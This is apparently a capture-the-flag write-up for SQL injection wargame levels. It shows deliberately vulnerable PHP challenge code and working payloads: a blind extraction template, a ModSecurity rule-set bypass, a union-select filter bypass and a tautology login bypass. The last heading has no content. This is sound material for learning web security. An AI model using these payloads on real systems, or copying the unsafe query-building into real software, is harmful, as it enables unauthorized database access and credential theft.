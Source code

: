 payload: %2D1%27%3C%40%3D1%20OR%20%7Ba%201%7D%3D1%20limit%201%2C2%23

## Godzilla(error based + modsecurity core rule set v3.1.0)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_godzilla where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello admin</h2>";
   
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_godzilla where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("godzilla");
  highlight_file(__FILE__);
?>
```

payload : 1'<@=1 OR {a ord(mid({pw},{i},1))}={j}%23

## Cyclops(first second bypass)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```

payload : id=1'%23\&pw=%0Aunion/\*\*/select 0x6669727374, 0x7365636f6e64''%23

## CHUPACABRA

payload : ' or%20%20 id='admin'-- -

## MANTICORE
